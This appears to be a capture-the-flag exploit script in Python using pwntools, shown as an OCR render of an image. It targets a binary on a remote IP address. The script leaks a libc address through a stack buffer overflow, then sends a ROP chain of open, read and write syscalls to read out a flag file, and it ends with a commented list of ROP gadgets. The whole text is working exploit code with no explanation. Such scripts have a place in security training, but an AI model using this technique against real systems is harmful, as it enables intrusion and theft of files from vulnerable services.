 ```python
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
p=remote('8.130.110.158',2111)
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
func_addr=elf.got['setvbuf']
syscall_ret=0x4012ec
pop_rdi=0x401363
pop_rsi2=0x401361
 
p.sendline("000")
payload=b'a'*0x78+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadfeef)+p64(0x401291)
pause()
p.sendline(payload)
p.recvuntil(b'./f1ag')
p.recv(2)
# p.recvuntil(b'./f1ag\x00\x00\x00')
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['setvbuf']
print(hex(func_addr))
print(hex(base))
system_addr=base+libc.symbols['system']
printf_addr=base+libc.symbols['printf']
sh=base+next(libc.search(b'/bin/sh'))
open64_addr=base+libc.symbols['open64']
 
flag_name=0x4040e0
pop_rdx=0x142c92+base
pop_rsi=0x2601f+base
pop_rax=0x36174+base
 
payload=b'flag\x00\x00\x00\x00'
pause()
p.send(payload)
 
payload=b'a'*0x78+p64(pop_rax)+p64(2)+p64(pop_rdi)+p64(flag_name)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(pop_rsi)+p64(0)+p64(syscall_ret)+p64(pop_rax)+p64(0)+p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(flag_name+0x20)+p64(pop_rdx)+p64(0x30)+p64(syscall_ret)+p64(pop_rax)+p64(1)+p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(flag_name+0x20)+p64(pop_rdx)+p64(0x30)+p64(syscall_ret)+p64(0x401270)
pause()
p.send(payload)
 
p.interactive(0)
 
# 0x000000000040135c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040135e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401360 : pop r14 ; pop r15 ; ret
# 0x0000000000401362 : pop r15 ; ret
# 0x000000000040135b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040135f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x000000000040119d : pop rbp ; ret
# 0x0000000000401363 : pop rdi ; ret
# 0x0000000000401361 : pop rsi ; pop r15 ; ret
# 0x000000000040135d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
# 0x000000000040127e : ret 0x14
# 0x00000000004012e7 : ret 0x200
 
# 0x00000000004012ba : ret 0x4c
# 0x000000000040129c : ret 0x50
# offset in libc
```